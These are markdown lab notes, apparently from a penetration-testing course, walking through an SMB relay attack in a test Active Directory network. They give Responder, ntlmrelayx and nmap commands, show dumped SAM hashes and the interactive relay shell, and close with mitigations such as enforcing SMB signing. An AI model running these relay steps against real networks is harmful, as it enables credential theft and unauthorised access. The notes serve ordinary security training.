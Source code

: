 #cybersecurity #hacking #penetration-testing 
#active-directory #smb 

# SMB Relay Attack

## SMB Relay Attacks Overview

#### What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

#### Requirements

-   ﻿﻿SMB signing must be disabled on the target
-   ﻿﻿Relayed user credentials must be admin on machine

>Note: In this case Vegeta is admin on both the Planet Vegeta Machine and Earth Machine

1. Edit the responder configuration file ```gedit Responder.conf```
![](https://i.imgur.com/zMDNVcs.png)
2. Run Responder ```python Responder.py -| tun0 -dw```
3. Set up the relay ```python ntlmrelayx.py -tf targets.txt -smb2support```
4. An event occurs: point the Win10box at a machine but DNS fails, responder kicks in and relays creds to another machine
5. Credentials are relayed to another machine

>Vegeta is an admin on the Earth machine too so if his hash is relayed to the Earth Machine we should be able to get access to that machine as well

![](https://i.imgur.com/mfo883Z.png)

## Discovering Hosts with SMB Signing Disabled

Several ways to do this:
- Nessus
- Nmap
- Search github for smb checker

### NMAP Way

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.2.0/24
```

Output:
![](https://i.imgur.com/CXIZBIQ.png)

We can see the server (192.168.2.135) has signing required but the individual windows 10 machines do not:

![](https://i.imgur.com/vDnBc5f.png)

Create a ``targets.txt`` file with ``192.168.2.137``: Win10-Earth Machine

## SMB Relay Attack Part 1

Need to turn off SMB and HTTP:

![](https://i.imgur.com/zMDNVcs.png)

Run responder

```bash
repsonder -I eth0 -dw
```

![](https://i.imgur.com/EAPpNEU.png)

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box)
It responds with an error but dumps the SAM hash because Vegeta is admin on the Win10-Earth Machine as well

![](https://i.imgur.com/UqCRwgH.png)

SAM Hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bcd858e95a29844cea73b5bc3bf76117:::
Goku:1003:aad3b435b51404eeaad3b435b51404ee:403f92cda3c8066381327fba611a6a9e:::
```

## SMB Relay Attack Part 2

Get an interactive shell from the SMB relay attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
```

Again I point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box). This is the "event" where DNS fails and the SMB Relay begins.

![](https://i.imgur.com/6v6Ptex.png)

```bash
nc 127.0.0.1 11000
```

![](https://i.imgur.com/WW36jQA.png)


Rewatch the end of https://academy.tcm-sec.com/courses/1152300/lectures/24780884


## SMB Relay Attack Defenses : Mitigation Strategies

### Enable SMB Signing on all devices
Pro: Completely stops the attack
Con: Can cause performance issues with file copies
### Disable NTLM authentication on network
Pro: Completely stops the attack
Con: If Kerberos stops working, Windows defaults back to NTLM
### Account tiering:
Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
Con: Enforcing the policy may be difficult
### Local admin restriction:
Pro: Can prevent a lot of lateral movement
Con: Potential increase in the amount of service desk tickets